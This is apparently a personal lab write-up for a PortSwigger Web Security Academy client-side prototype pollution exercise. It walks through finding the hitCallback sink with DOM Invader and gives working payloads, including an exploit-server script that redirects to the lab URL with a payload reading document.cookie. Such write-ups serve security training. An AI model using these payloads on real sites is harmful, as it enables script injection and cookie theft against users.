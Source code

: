 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/client-side-prototype-pollution/lab-3/"}
---
```



---

## Objective: Get document.cookie

### Automatic method

In this lab, we are recommended to use DOM Invader as it saves us time and effort. First just use it like the same open the browser and the extension

![Pasted image 20250330233647.png](/img/user/Images/Pasted%20image%2020250330233647.png)

![Pasted image 20250330233836.png](/img/user/Images/Pasted%20image%2020250330233836.png)

And we get the alert here after exploiting the exploiting the sink which is `hitCallback`

![Pasted image 20250331001017.png](/img/user/Images/Pasted%20image%2020250331001017.png)

Here is the generated payload that calls an alert

```
/#__proto__[hitCallback]=alert%281%29
```

Now, the objective is to steal the cookie, Portswigger already mad a server for which we can deliver the payload

![Pasted image 20250331001211.png](/img/user/Images/Pasted%20image%2020250331001211.png)

We craft the exploit with `<script>` tags in the body with the `location` reference being our payload 

```
<script>
    location="https://0adc007d04ba9aaa8508314200390060.web-security-academy.net/#__proto__[hitCallback]=alert%281%29"
</script>
```

But the payload is URL-encoded, we can check using Cyberchef

![Pasted image 20250331001409.png](/img/user/Images/Pasted%20image%2020250331001409.png)

Only change the alert to a `document.cookie` and the exploit is set.

```
https://0adc007d04ba9aaa8508314200390060.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29
```
